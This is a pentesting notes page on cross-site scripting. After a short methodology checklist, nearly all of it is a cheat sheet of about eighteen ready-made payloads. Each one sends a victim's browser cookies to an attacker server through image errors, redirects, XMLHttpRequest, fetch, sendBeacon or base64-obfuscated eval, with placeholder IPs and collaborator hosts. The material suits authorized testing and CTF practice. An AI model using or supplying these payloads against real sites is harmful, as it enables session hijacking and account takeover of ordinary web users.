 ```yaml
---
icon: spider-black-widow
description: Cross-site Scripting
---
```


# XSS

{% hint style="info" %}
## <mark style="color:purple;">Methodology</mark>

* [ ] <mark style="color:purple;">Look if any value you control is being reflected in the</mark> <mark style="color:orange;">**`HTML`**</mark> <mark style="color:purple;">or used by</mark> <mark style="color:orange;">**`Javascript`**</mark> <mark style="color:purple;">code.</mark>
* [ ] <mark style="color:purple;">**Find the context**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">where it's</mark> <mark style="color:orange;">**`reflected/used`**</mark><mark style="color:purple;">.</mark>

***

### <mark style="color:purple;">Reflected XSS</mark>

*


{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Stealing Cookies</mark>

### <mark style="color:purple;">Key Condition -></mark> <mark style="color:orange;">**`HttpOnly`**</mark> <mark style="color:purple;">needs to be set to</mark> <mark style="color:orange;">**`false`**</mark>&#x20;

* <mark style="color:purple;">Use when injecting into an image tag where an</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**error event triggers(**</mark><mark style="color:orange;">**`HTTP response error or broken link`**</mark><mark style="color:purple;">**):**</mark>

```html
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
```

* <mark style="color:purple;">Use when you can inject an image and trigger a redirect via the</mark> <mark style="color:orange;">**`onerror`**</mark> <mark style="color:purple;">event(</mark><mark style="color:orange;">**`load error`**</mark><mark style="color:purple;">):</mark>

```html
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
```

* <mark style="color:purple;">Use in situations where you can send cookies via an image request (</mark><mark style="color:orange;">**`URL encoding`**</mark><mark style="color:purple;">):</mark>

```html
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
```

* <mark style="color:purple;">Use when</mark>  <mark style="color:purple;"></mark><mark style="color:purple;">you need to send cookies using an</mark> <mark style="color:orange;">**`audio object`**</mark><mark style="color:purple;">:</mark>

```html
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
```

* <mark style="color:purple;">Use when you</mark> <mark style="color:orange;">**`want to redirect`**</mark> <mark style="color:purple;">the user to a server with the cookies attached:</mark>

```html
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```

* <mark style="color:purple;">Similar to the previous one; use when you</mark>  <mark style="color:orange;">**`want to redirect`**</mark><mark style="color:purple;">:</mark>

```html
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```

* <mark style="color:purple;">Use in scenarios where you can  modify the</mark> <mark style="color:orange;">**`document.location`**</mark> <mark style="color:purple;">and send cookies:</mark>

```html
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```

* <mark style="color:purple;">Inject when you need to send cookies via</mark> <mark style="color:orange;">**`document.location.href`**</mark> <mark style="color:purple;">and trigger a</mark> <mark style="color:orange;">**`redirect`**</mark><mark style="color:purple;">:</mark>

```html
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```

* <mark style="color:purple;">Use to</mark> <mark style="color:orange;">**`dynamically write an image`**</mark> <mark style="color:purple;">that sends cookies:</mark>

```bash
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
```

* <mark style="color:purple;">Use when  you need to</mark> <mark style="color:orange;">**`assign a location redirect`**</mark> <mark style="color:purple;">with cookies:</mark>

```html
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
```

* <mark style="color:purple;">Similar to the previous one, use when you need to access</mark> <mark style="color:orange;">**`window.location`**</mark> <mark style="color:purple;">properties dynamically:</mark>

```html
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
```

* <mark style="color:purple;">Use when you need to modify</mark> <mark style="color:orange;">**`window.location.href`**</mark> <mark style="color:purple;">dynamically:</mark>

```html
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
```

* <mark style="color:purple;">Use when you can</mark> <mark style="color:orange;">**`dynamically join the URL and cookies to redirect`**</mark><mark style="color:purple;">:</mark>

```html
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
```

* <mark style="color:purple;">Use when you can send cookies using an</mark> <mark style="color:orange;">**`image object`**</mark><mark style="color:purple;">:</mark>

```html
<script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>
```

* <mark style="color:purple;">Use when you need to</mark> <mark style="color:orange;">**`redirect with concatenation of cookies`**</mark> <mark style="color:purple;">into a URL:</mark>

```html
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
```

* <mark style="color:purple;">Use in scenarios where you can send cookies via an</mark> <mark style="color:orange;">**`XMLHttpRequest`**</mark><mark style="color:purple;">:</mark>

```html
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
```

* <mark style="color:purple;">Use when you can inject</mark> <mark style="color:orange;">**`base64-encoded JavaScript`**</mark> <mark style="color:purple;">and execute it to send cookies:</mark>

```html
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
```

* <mark style="color:purple;">Use when you need to send cookies via</mark> <mark style="color:orange;">**`fetch`**</mark> <mark style="color:purple;">with</mark> <mark style="color:orange;">**`no-cors`**</mark> <mark style="color:purple;">mode to</mark> <mark style="color:orange;">**`avoid response handling`**</mark><mark style="color:purple;">:</mark>

```html
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
```

* <mark style="color:purple;">Use when you want to send cookies</mark> <mark style="color:orange;">**`asynchronously`**</mark> <mark style="color:purple;">in the background using the</mark> <mark style="color:orange;">**`sendBeacon`**</mark> <mark style="color:purple;">API, typically for stealthier attacks.</mark>

```html
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
{% endhint %}

***

